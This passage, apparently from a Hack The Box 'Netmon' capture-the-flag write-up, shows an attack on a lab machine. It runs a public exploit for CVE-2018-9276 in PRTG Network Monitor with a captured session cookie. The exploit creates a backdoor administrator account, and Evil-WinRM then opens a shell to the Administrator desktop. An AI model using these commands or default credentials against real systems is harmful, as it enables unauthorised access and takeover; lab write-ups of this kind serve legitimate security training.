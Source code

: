 I captured the request in Burp:


![c078c7d26fc0d3cb59ba88ffccb98295.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-netmon/a85c998d0d0c410ca31ad8d8773ca0e6.png)
We got what we are looking for.

```
root@w0lf:~/CTF/HTB/Boxes/Netmon# ./exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.1727861666.1587366074; _gid=GA1.4.436539900.1587366074; OCTOPUS1813713946=e0E2QkI5NkI5LTcwQTYtNDE3MS05MUM0LTc1Q0NDMzlBMTY3RX0%3D"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
```
New account is created with `Administrator Privilege`

I used [Evilwinrm](https://github.com/Hackplayers/evil-winrm) to login.
```
root@w0lf:~/tools/evil-winrm# ruby evil-winrm.rb -i 10.10.10.152 -u pentest -p 'P3nT3st!'

Evil-WinRM shell v2.2

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\pentest\Documents> cd ../../
*Evil-WinRM* PS C:\Users> cd Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/2/2019  11:35 PM             33 root.txt
```